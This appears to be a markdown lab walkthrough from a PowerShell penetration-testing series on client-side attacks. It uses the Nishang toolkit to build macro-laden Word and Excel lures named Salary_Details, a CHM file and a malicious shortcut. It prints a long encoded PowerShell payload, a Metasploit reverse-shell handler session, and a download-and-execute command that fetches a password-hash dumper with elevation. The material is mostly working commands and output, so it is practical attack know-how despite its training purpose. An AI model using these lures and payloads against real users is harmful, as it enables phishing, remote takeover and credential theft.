


#### 49. Client Side Attacks Part 4

###### Using Modules

```PowerShell
PS C:\Users\Administrator\Desktop\nishang-master> Import-Module .\nishang.psm1
WARNING: The names of some imported commands from the module 'nishang' include unapproved verbs that might make them less discoverable. To find the commands with unapproved verbs, run the Import-Module
command again with the Verbose parameter. For a list of approved verbs, type Get-Verb.
WARNING: Some imported command names contain one or more of the following restricted characters: # , ( ) {{ }} [ ] & - / \ $ ^ ; : " ' < > | ? @ ` * % + = ~
PS C:\Users\Administrator\Desktop\nishang-master>
```

```PowerShell
PS C:\Users\Administrator\Desktop\nishang-master> Out-Word -PayloadURL http://10.0.0.233/Powerpreter.psm1 -Arguments Get-Information
Saved to file C:\Users\Administrator\Desktop\nishang-master\Salary_Details.doc
0
PS C:\Users\Administrator\Desktop\nishang-master>
```

```PowerShell
PS C:\Users\Administrator\Desktop\nishang-master> ls .\Salary_Details.doc


    Directory: C:\Users\Administrator\Desktop\nishang-master


Mode                LastWriteTime     Length Name
----                -------------     ------ ----
-a---         7/17/2017   4:22 PM      28672 Salary_Details.doc


PS C:\Users\Administrator\Desktop\nishang-master>
```

Run ```Salary_Details.doc```

View &rightarrow; Macros &rightarrow; View Macros &rightarrow; Document_Open &rightarrow; Edit



###### Using another client side attack from a client side attack

```PowerShell
PS C:\Users\Administrator\Desktop\nishang-master> Import-Module .\nishang.psm1
WARNING: The names of some imported commands from the module 'nishang' include unapproved verbs that might make them less discoverable. To find the commands with unapproved verbs, run the Import-Module
command again with the Verbose parameter. For a list of approved verbs, type Get-Verb.
WARNING: Some imported command names contain one or more of the following restricted characters: # , ( ) {{ }} [ ] & - / \ $ ^ ; : " ' < > | ? @ ` * % + = ~
PS C:\Users\Administrator\Desktop\nishang-master>
```

[```Out-ShortcutModified.ps1```](https://github.com/Kan1shka9/PowerShell-for-Pentesters/blob/master/Code/49/Out-ShortcutModified.ps1)

```PowerShell
PS C:\Users\Administrator\Desktop\nishang-master> Invoke-Encode -DataToEncode .\Client\Out-ShortcutModified.ps1 -OutCommand
Encoded data written to .\encoded.txt
Encoded command written to .\encodedcommand.txt
PS C:\Users\Administrator\Desktop\nishang-master>
```

```PowerShell
PS C:\Users\Administrator\Desktop\nishang-master> cat .\encodedcommand.txt
SQBuAHYAbwBrAGUALQBFAHgAcAByAGUAcwBzAGkAbwBuACAAJAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABJAE8ALgBTAHQAcgBlAGEAbQBSAGUAYQBkAGUAcgAgACgAJAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABJAE8ALgBDAG8AbQBwAHIAZQBzAHMAaQBvAG4ALg
BEAGUAZgBsAGEAdABlAFMAdAByAGUAYQBtACAAKAAkACgATgBlAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAE0AZQBtAG8AcgB5AFMAdAByAGUAYQBtACAAKAAsACQAKABbAEMAbwBuAHYAZQByAHQAXQA6ADoARgByAG8AbQBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAo
ACcAbgBWAFYAYgBiADUAcwB3AEYASAA2AFAAbABQAC8AZwBvAFUAaQBBAEYATQBoAHQAMwBhAFIATwBlAFYAagBUAFYAcQB2AGEAdABXAGkAMAB5AHEAUwBtAEQAdwA2AGMAQgBLADkAZwBJADkAdQA1AG8ASwByAC8AZgBUAGEAWABoAHQARgBKAHkAdwBBAEoAWAA4AD
cAeAArAFkANwBQADkAOQBtAHMATgBqAFMAUQBoAEYARgAwAHQANQBHAE8ASAB6AEUAdQBnADQAMwBzAGQAbAA2ADYAbgBXADQASABxAGUAZAB4AGwAbwBRAHgAeQBEAE4AQwBRADAATABYAGwAdgAyAEUAUABNAHgAeABZAGgAVgBXAC8AUgB4ADYAagA3AGsASgBKAEgA
RABMAFkANABMAGsAWQBhAGQAbwAyAEUAZgBmAE0AUQAyAHgAWgBEAHgAVAB3ADkANABsAGoAZwBYAFkAVAA3AFYAbAB2AHUAUQBxAGQAbQAyAG0AZAA3AEUASABsAFEAWgBlAHgAcQBCAFcARwBMAFAAVAB4AFYAegBoAHMANQAxAFkAKwBKAG0AUQBrAEUAegBHADEAWQ
BUAEgAZABzAEQAOQBDAE8ASgA0AHMAUgAyADUAdwAwAFcAcQB4ADAASwBQAFgAZABpAEQAMABUADgAKwB6AFYARwBMAE4ARAAyAGMAeABRAHkASAAvADQARQB5AGIAbwAvAHkAOABPAE8AbQBYADcARgB5AEQATgBTAGsAQgBkAFIAWAB2AHQANABrAFEASwBYADQAQQAr
AG4AdgA4AFQAKwAyAGkASwA5AEUAbABtADYAawBoADIAVwBrAGUAZQAyAGwAdQAzAEIAUgBhAFEANQBKAGgAaQA2AEoASQB0AHcASAB2AGcAWAB1AHgAdgBUAFoATwBDAEsATABrAHgAWgBaAGYARwBQAHkARwByAFMAMwBlAFgAbABpADUAaABqAC8AUQB2AG4AVQBBAH
UAVQBxAFkASABSAHEAdwBqADYATgBHAFYAZgA3AFUAWABJADAAQwA2AGcASwB6AGkANABhAHMAcgBJACsAVgBCAHkAWABVAHkALwB2ADIAZABmADEAUQBrADYAaABlAGwAOQBtAHEAawA0AFIAQwBVAE8AZwB5AEMAbgBPAGkAcwByAFQAWQB6AEUASgBNAG4AUwBXAHAA
VgBnAEkANQBGAEEAVwBzAHoAWABUAGIAYwByAFoAUwBsAGYAVwBDAGQARABWAHgAVQA5AGsAVwBiAGUAdwBjACsANgBXAHYAeQBDAFEANgBCAGEAawBPADQAZgBsAEwAQwBhAEsAZAB0AHMAOQBaAHoAdQBxADQAWQByAHQAVwBHAFoATgBmAEsAWgB0AGYAegBrAEkAeA
BDAGgAUwBmAEMAMgBhADMAbAB4AEUAKwBTAGwAVQBhAGQAYQBDAE8AdwBGAEwAeQB1ADcAYwBEAHoAaABKAHAAWgB0ADcAbABZAHYAZQBxAEoAOABlAEEAcgBnAHoARABsAGgAQwBaAGIASgBxAGsAcgBFAGIAeQA5AHgANwB6AE4AZABRAHEAYQBsADIAWgB6AFQAOQB6
AGsASABrADQAQQBXAFgAUgBsADEAeAA1AFQAVwBDAEgAbABKAEYATABxAEEAWgBTAHgATABGAGMAMAB3AG8ARwBNADAAbwA5AGQAcABQADAAZQBlAG0AVwBZAG4AcQBPAFIAZABWAEsAYQArAG0AWABjAHYAaABoAGcAVwA0AHkAaQBMAFgAUgAzAC8ANABEAHUAYQB0AH
cAagBwAFUAVwBmADIAbQBqADQAKwAzAFkASgBYAGwAbQBIAE0AaQB3AFMAbQBxAGgASQB6ADcAUwBCADIAZwBhAG4AOAA1ADYAUgBFAFcAYQBBAGwASwBLAEQAdgBsAEsARgBXAHIAeAByAFcAaQBHAGwAcQBOAHIALwBwAFQALwB3AEUAZwA1ADgAQQA3AGkAcQBSAE0A
VAB3AGUARAAwAGQARABWADcAMwBnAHkARwBTAFMARQBFAG8AZQBEAE8AcQBZAEMAMwBGAFMATQB1AHAAMwBmACcAKQApACkAKQAsACAAWwBJAE8ALgBDAG8AbQBwAHIAZQBzAHMAaQBvAG4ALgBDAG8AbQBwAHIAZQBzAHMAaQBvAG4ATQBvAGQAZQBdADoAOgBEAGUAYw
BvAG0AcAByAGUAcwBzACkAKQAsACAAWwBUAGUAeAB0AC4ARQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApACkALgBSAGUAYQBkAFQAbwBFAG4AZAAoACkAOwA=
PS C:\Users\Administrator\Desktop\nishang-master>
```

```PowerShell
PS C:\Users\Administrator\Desktop\nishang-master> Out-CHM -Payload " -e SQBuAHYAbwBrAGUALQBFAHgAcAByAGUAcwBzAGkAbwBuACAAJAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABJAE8ALgBTAHQAcgBlAGEAbQBSAGUAYQBkAGUAcgAgACgAJAA
oAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABJAE8ALgBDAG8AbQBwAHIAZQBzAHMAaQBvAG4ALgBEAGUAZgBsAGEAdABlAFMAdAByAGUAYQBtACAAKAAkACgATgBlAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAE0AZQBtAG8AcgB5AFMAdAByAGUAYQBtACAAKAAsACQAKABbAE
MAbwBuAHYAZQByAHQAXQA6ADoARgByAG8AbQBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAoACcAbgBWAFYAYgBiADUAcwB3AEYASAA2AFAAbABQAC8AZwBvAFUAaQBBAEYATQBoAHQAMwBhAFIATwBlAFYAagBUAFYAcQB2AGEAdABXAGkAMAB5AHEAUwBtAEQAdwA2AGMAQ
gBLADkAZwBJADkAdQA1AG8ASwByAC8AZgBUAGEAWABoAHQARgBKAHkAdwBBAEoAWAA4ADcAeAArAFkANwBQADkAOQBtAHMATgBqAFMAUQBoAEYARgAwAHQANQBHAE8ASAB6AEUAdQBnADQAMwBzAGQAbAA2ADYAbgBXADQASABxAGUAZAB4AGwAbwBRAHgAeQBEAE4AQwBR
ADAATABYAGwAdgAyAEUAUABNAHgAeABZAGgAVgBXAC8AUgB4ADYAagA3AGsASgBKAEgARABMAFkANABMAGsAWQBhAGQAbwAyAEUAZgBmAE0AUQAyAHgAWgBEAHgAVAB3ADkANABsAGoAZwBYAFkAVAA3AFYAbAB2AHUAUQBxAGQAbQAyAG0AZAA3AEUASABsAFEAWgBlAHg
AcQBCAFcARwBMAFAAVAB4AFYAegBoAHMANQAxAFkAKwBKAG0AUQBrAEUAegBHADEAWQBUAEgAZABzAEQAOQBDAE8ASgA0AHMAUgAyADUAdwAwAFcAcQB4ADAASwBQAFgAZABpAEQAMABUADgAKwB6AFYARwBMAE4ARAAyAGMAeABRAHkASAAvADQARQB5AGIAbwAvAHkAOA
BPAE8AbQBYADcARgB5AEQATgBTAGsAQgBkAFIAWAB2AHQANABrAFEASwBYADQAQQArAG4AdgA4AFQAKwAyAGkASwA5AEUAbABtADYAawBoADIAVwBrAGUAZQAyAGwAdQAzAEIAUgBhAFEANQBKAGgAaQA2AEoASQB0AHcASAB2AGcAWAB1AHgAdgBUAFoATwBDAEsATABrA
HgAWgBaAGYARwBQAHkARwByAFMAMwBlAFgAbABpADUAaABqAC8AUQB2AG4AVQBBAHUAVQBxAFkASABSAHEAdwBqADYATgBHAFYAZgA3AFUAWABJADAAQwA2AGcASwB6AGkANABhAHMAcgBJACsAVgBCAHkAWABVAHkALwB2ADIAZABmADEAUQBrADYAaABlAGwAOQBtAHEA
awA0AFIAQwBVAE8AZwB5AEMAbgBPAGkAcwByAFQAWQB6AEUASgBNAG4AUwBXAHAAVgBnAEkANQBGAEEAVwBzAHoAWABUAGIAYwByAFoAUwBsAGYAVwBDAGQARABWAHgAVQA5AGsAVwBiAGUAdwBjACsANgBXAHYAeQBDAFEANgBCAGEAawBPADQAZgBsAEwAQwBhAEsAZAB
0AHMAOQBaAHoAdQBxADQAWQByAHQAVwBHAFoATgBmAEsAWgB0AGYAegBrAEkAeABDAGgAUwBmAEMAMgBhADMAbAB4AEUAKwBTAGwAVQBhAGQAYQBDAE8AdwBGAEwAeQB1ADcAYwBEAHoAaABKAHAAWgB0ADcAbABZAHYAZQBxAEoAOABlAEEAcgBnAHoARABsAGgAQwBaAG
IASgBxAGsAcgBFAGIAeQA5AHgANwB6AE4AZABRAHEAYQBsADIAWgB6AFQAOQB6AGsASABrADQAQQBXAFgAUgBsADEAeAA1AFQAVwBDAEgAbABKAEYATABxAEEAWgBTAHgATABGAGMAMAB3AG8ARwBNADAAbwA5AGQAcABQADAAZQBlAG0AVwBZAG4AcQBPAFIAZABWAEsAY
QArAG0AWABjAHYAaABoAGcAVwA0AHkAaQBMAFgAUgAzAC8ANABEAHUAYQB0AHcAagBwAFUAVwBmADIAbQBqADQAKwAzAFkASgBYAGwAbQBIAE0AaQB3AFMAbQBxAGgASQB6ADcAUwBCADIAZwBhAG4AOAA1ADYAUgBFAFcAYQBBAGwASwBLAEQAdgBsAEsARgBXAHIAeABy
AFcAaQBHAGwAcQBOAHIALwBwAFQALwB3AEUAZwA1ADgAQQA3AGkAcQBSAE0AVAB3AGUARAAwAGQARABWADcAMwBnAHkARwBTAFMARQBFAG8AZQBEAE8AcQBZAEMAMwBGAFMATQB1AHAAMwBmACcAKQApACkAKQAsACAAWwBJAE8ALgBDAG8AbQBwAHIAZQBzAHMAaQBvAG4
ALgBDAG8AbQBwAHIAZQBzAHMAaQBvAG4ATQBvAGQAZQBdADoAOgBEAGUAYwBvAG0AcAByAGUAcwBzACkAKQAsACAAWwBUAGUAeAB0AC4ARQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApACkALgBSAGUAYQBkAFQAbwBFAG4AZAAoACkAOwA=" -HHCPath 'C:
\Program Files (x86)\HTML Help Workshop'
Microsoft HTML Help Compiler 4.74.8702

Compiling c:\Users\Administrator\Desktop\nishang-master\doc.chm


Compile time: 0 minutes, 0 seconds
2       Topics
4       Local links
4       Internet links
0       Graphics


Created c:\Users\Administrator\Desktop\nishang-master\doc.chm, 14,838 bytes
Compression decreased file by 1,046 bytes.
PS C:\Users\Administrator\Desktop\nishang-master>
```

```PowerShell
PS C:\Users\Administrator\Desktop\nishang-master> ls .\doc.chm


    Directory: C:\Users\Administrator\Desktop\nishang-master


Mode                LastWriteTime     Length Name
----                -------------     ------ ----
-a---         7/17/2017   4:43 PM      14838 doc.chm


PS C:\Users\Administrator\Desktop\nishang-master>
```

Running ```doc.chm``` will produce a ```Shortcut to File Server.lnk```

```PowerShell

PS C:\Users\Administrator\Desktop\nishang-master> ls '.\Shortcut to File Server.lnk'


    Directory: C:\Users\Administrator\Desktop\nishang-master


Mode                LastWriteTime     Length Name
----                -------------     ------ ----
-a---         7/17/2017   4:43 PM       1534 Shortcut to File Server.lnk


PS C:\Users\Administrator\Desktop\nishang-master>
```




Run ```Shortcut to File Server.lnk```

```sh
root@kali:~# msfconsole
msf > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/shell/reverse_tcp
PAYLOAD => windows/shell/reverse_tcp
msf exploit(handler) > set LHOST 10.0.0.206
LHOST => 10.0.0.206
msf exploit(handler) > set LPORT 4444
LPORT => 4444
msf exploit(handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/shell/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.0.0.206       yes       The listen address
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf exploit(handler) > exploit

[*] Started reverse TCP handler on 10.0.0.206:4444
[*] Starting the payload handler...
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 10.0.0.233
[*] Command shell session 1 opened (10.0.0.206:4444 -> 10.0.0.233:17394) at 2017-07-17 19:43:33 -0400

whoami
pfpt\administrator
```

###### Running PowerShell scripts with elevation

```PowerShell
PS C:\Users\Administrator\Desktop\nishang-master> Out-Excel -Payload "powershell.exe Start-Process -FilePath powershell.exe -ArgumentList ''-noexit -c IEX ((New-Object Net.WebClient).DownloadString(''''h
ttp://10.0.0.233/Get-PassHashes.ps1''''));Get-PassHashes'' -Verb  runas"
Saved to file C:\Users\Administrator\Desktop\nishang-master\Salary_Details.xls
0
PS C:\Users\Administrator\Desktop\nishang-master>
```

```PowerShell
PS C:\Users\Administrator\Desktop\nishang-master> ls .\Salary_Details.xls


    Directory: C:\Users\Administrator\Desktop\nishang-master


Mode                LastWriteTime     Length Name
----                -------------     ------ ----
-a---         7/17/2017   5:14 PM      29696 Salary_Details.xls


PS C:\Users\Administrator\Desktop\nishang-master>
```

Run ```Salary_Details.xls```, Bypass ```UAC``` and hashed for all users will be displayed in ```cmd```

###### Reads

- [Using PowerShell for Client Side Attacks](http://www.labofapenetrationtester.com/2014/11/powershell-for-client-side-attacks.html)
- [DELIVERING A POWERSHELL PAYLOAD IN A CLIENT-SIDE ATTACK](https://enigma0x3.net/2014/01/11/using-a-powershell-payload-in-a-client-side-attack/)